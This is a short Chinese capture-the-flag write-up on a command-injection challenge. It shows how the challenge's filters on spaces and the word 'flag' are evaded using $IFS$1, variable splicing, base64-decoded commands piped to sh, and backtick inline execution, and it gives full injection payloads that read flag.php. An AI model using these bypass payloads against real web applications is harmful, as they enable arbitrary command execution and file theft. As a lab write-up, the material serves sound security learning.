


## 思路

1. 本题最基本的Linux管道符|、&、;均可使用。

2. 利用ls，发现index.php和flag.php。

3. 说明本题最终目的很可能是读取flag.php来获得flag。

4. 测试如下：

   1. `ip=127.0.0.1;cat flag.php`  说明空格被过滤

      

      绕过空格过滤的方法：$IFS$1、${IFS}、<>、

   2. `ip=127.0.0.1;cat${IFS}flag.php`，显示如下，说明{}可能被过滤

      

   3. `ip=127.0.0.1;cat$IFS$1flag.php`，flag被过滤，说明$IFS$1可以绕过空格检查

      

   4. 因此需要使用一种方法能绕过对flag的检测

      一般对黑名单进行绕过有以下方法：

      - 拼接 c=fl;d=ad;cat $c$d
      - base64编码 echo "base64后的命令"|base64 -d|sh
      - 双引号、单引号 c""at fl''ag
      - 反斜线
      - $1、$2、$@

      本题payload为：

      - ?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh（将cat flag.php进行base64编码）
      - ?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
      - 内联执行 将反引号内命令的输出作为输入执行
        - ?ip=127.0.0.1;cat$IFS$1`ls`

   

## 总结

- 命令执行变量拼接
- 过滤bash用sh执行
- 内联执行